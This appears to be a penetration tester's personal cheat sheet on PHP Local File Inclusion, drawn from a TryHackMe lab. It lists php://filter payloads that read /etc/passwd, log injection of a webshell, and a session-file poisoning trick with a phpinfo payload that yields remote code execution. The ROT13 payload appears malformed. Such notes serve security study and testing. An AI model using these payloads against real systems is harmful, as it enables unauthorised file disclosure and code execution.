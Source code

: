 # Local File Inclusion
Tags: #lfi #php #logs #privesc 
See also: 
Related to: [[linux-privesc]]

## Including a PHP log
If you ever see any webpage that looks like a system log, e.g. showing which user accessed a page, try to get control over that value and insert PHP code between `<?php` tags.

![[thm-wwbuddy-php-log-inject.png]]
In this case, changed WWBuddy name to a webshell

## PHP Wrappers
Generic resource
`?file=php://filter/resource=/etc/passwd`

### Retrieving PHP source code
ROT13
`?file=filter/read=string.rot13/resource=/etc/passwd`

Base64
`?file=php://filter/convert.base64-encode/resource=/etc/passwd`

## PHP session files
PHP can be configured to store session files in e.g. `/tmp` that match the PHPSESSID,
e.g. `/tmp/sess_4qv0tib1blj8be6vibc0rou2s7` if `PHPSESSID=4qv0tib1blj8be6vibc0rou2s7`

This will log login attemtps in some cases.

So if you POST 
	username:`<?php phpinfo(); ?>`
	password: `pass`

And can include files, then you can do `?file=/tmp/sess_4qv0tib1blj8be6vibc0rou2s7` after logging in and get RCE